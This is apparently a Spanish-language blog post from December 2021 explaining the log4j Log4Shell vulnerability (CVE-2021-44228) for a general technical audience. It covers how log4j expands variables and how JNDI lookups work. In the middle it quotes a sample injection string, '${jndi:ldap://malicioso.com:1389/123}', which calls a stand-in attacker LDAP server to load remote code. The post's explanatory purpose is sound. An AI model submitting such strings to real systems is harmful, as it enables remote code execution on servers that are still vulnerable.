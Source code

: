 +++
title = "¿qué pasó con log4j?"
slug = "20211222125958771"
date = "2021-12-22 11:44:58"
[taxonomies]
tema = ["noticias"]
autor = ["Víctor Manuel Jáquez Leal"]
+++

Para estas alturas posiblemente todos ya estarán enterados del fallo de
seguridad en log4j\[1\], aunque creo que vale la pena repasarlo.

Todo software más o menos complejo registra los eventos que le
conciernen. La forma más simple de registrar estos eventos, sería
imprimir en la salida estándar o de error un mensaje, humanamente
legible, describiendo el evento en cuestión. Pero el registro de eventos
puede complicarse al grado de que existen bibliotecas de software
específicas que abstraen esta actividad. Hay bibliotecas de “logging”
(como se conoce al registro de eventos) para todos los lenguajes, y
log4j\[2\] es uno de los disponibles para Java.

¿En qué consiste el bug?

En pocas palabras, log4j “parsea” los mensajes a registrar en búsqueda
de variables que puede reemplazar. Por ejemplo, el programador loggea
este mensaje:

logger.info(“El usuario” + user + ” ha entrado”).

Entonces log4j parsea la cadena y sabe que la variable user, en el
estado actual de la aplicación es “ceyusa”, por lo que finalmente
escribe en bitácora

12:38:10.234 \[main\] INFO Main - El usuario ‘ceyusa’ ha entrado

Esto es muy útil, pero como todos los datos proveeidos por el usuario,
son potencialmente peligrosos, máxime si éstos viajan por red.

Supongamos que el usuario puede cambiar su nombre de usuario de “ceyusa”
a “${java:version}”. log4j parseará esa cadena y verá que es un programa
en java que ejectua, por lo que el resultado será:

12:38:10.234 \[main\] INFO Main - El usuario ‘Java version 1.8.0_213’ ha
entrado

Por otro lado, hay una cosa en Java que se llama JNDI: Java Naming and
Directory Interface\[3\]. Es una interfaz para indicar, a la máquina
virtual de Java, la localización de un recurso remoto, por ejemplo una
base de datos, un Enterprise Java Bean, etcétera. Uno de los usos más
comunes es obtener información de un directorio a través del protocol
LDAP.

En nuestro ejemplo, el usuario podría cambiar su nombre de usuario por
‘${jndi:ldap://malicioso.com:1389/123}’. Lo que haría log4j sería
parsear esa cadena y ejectuarla. Al usar la API de JNDI, sabrá que el
contenido de esa variable se encuentra en un servidor remoto, llamado
malicioso.com, usando el protocolo LDAP y obtendrá el registro con la
llave 123. Este servidor remoto puede estar bajo control del atacante y
devolverá una cadena que se ejecutará dentro de la máquina virtual de
Java que ejecuta de nuestra inocente aplicación, como, por ejemplo,
lanzar una terminal en un puerto TCP (el típico remote backdoor).

¿Por qué es tan reelevante?

1.  Hay un montón de software en Java, legacy, sin mantener,
    ejecutándose en internet, usando una versión vulnerable de log4j.
2.  Hay un montón de software en Java, mantenido, pero que tiene una
    dependencia fuerte a un framework que usa una versión vulnerable de
    log4j.
3.  Hay demasiado software en Java, como en bancos, controladores
    aeropuertuarios, etc.

Finalmente, nos remite al cartón de XKCD\[4\] sobre tener dependencias
profundas de software, en sistemas complejos. O, al otro, clásico, sobre
no confiar, nunca, en lo absoluto, en las entradas del sistema\[5\].

Es más, hay quien toma esta situación como argumento para evitar esos
grantes frameworks totalizantes, y que sólo el lenguaje de programación
sea nuestro framework\[6\].

1.  https://nvd.nist.gov/vuln/detail/CVE-2021-44228
2.  https://logging.apache.org/log4j/2.x/
3.  https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
4.  https://xkcd.com/2347/
5.  https://xkcd.com/327/
6.  https://twitter.com/tomaka17/status/1470022487790571522

